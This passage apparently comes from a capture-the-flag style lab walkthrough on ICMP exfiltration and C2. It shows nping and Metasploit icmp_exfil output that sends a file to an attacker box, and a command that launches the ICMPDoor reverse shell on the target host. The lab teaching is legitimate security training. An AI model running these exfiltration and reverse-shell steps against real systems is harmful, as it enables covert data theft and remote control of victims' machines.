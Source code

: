 ```shell
RCVD (0.3760s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=33619 seq=1] IP [ttl=31 id=1003 iplen=36 ]
    
Max rtt: 339.555ms | Min rtt: 0.391ms | Avg rtt: 169.973ms
Raw packets sent: 1 (31B) | Rcvd: 2 (67B) | Lost: 0 (0.00%)
Nping done: 1 IP address pinged in 1.07 seconds
thm@icmp-host:~# 
```

Let's check our AttackBox once we have done sending the data and the ending trigger value.

- **Receiving Data in MSF**

```shell
msf5 auxiliary(server/icmp_exfil) > run
    
[*] ICMP Listener started on eth0 (ATTACKBOX_IP). Monitoring for trigger packet containing ^BOF
[*] Filename expected in initial packet, directly following trigger (e.g. ^BOFfilename.ext)
[+] Beginning capture of "file.txt" data
[*] 30 bytes of data received in total
[+] End of File received. Saving "file.txt" to loot
[+] Incoming file "file.txt" saved to loot
[+] Loot filename: /root/.msf4/loot/20220425212408_default_ATTACKBOX_IP_icmp_exfil_838825.txt 
```

Nice! We have successfully transferred data over the ICMP protocol using the  Metasploit Framework. You can check the loot file mentioned in the  terminal to confirm the received data.

### ICMP C2 Communication

Next, we will show executing commands over the ICMP protocol using the [ICMPDoor ](https://github.com/krabelize/icmpdoor)tool. ICMPDoor is an open-source reverse-shell written in Python3 and scapy. The tool uses the same concept we discussed earlier in this task, where an  attacker utilizes the Data section within the ICMP packet. The only  difference is that an attacker sends a command that needs to be executed on a victim's machine. Once the command is executed, a victim machine  sends the execution output within the ICMP packet in the Data section.

![C2 Communication over ICMP](./assets/c4c0b7beeaa41fd5b4a4f4cbe1ded82e.png)

We have prepared the tools needed for C2 communication over the ICMP protocol on **JumpBox** and the **ICMP-Host** machines. First, we need to log in to the ICMP machine,icmp.thm.com, and execute the icmpdoor binary as follows,

- **Run the icmpdoor command on the ICMP-Host Machine**

```shell
thm@icmp-host:~$ sudo icmpdoor -i eth0 -d 192.168.0.133
            
```
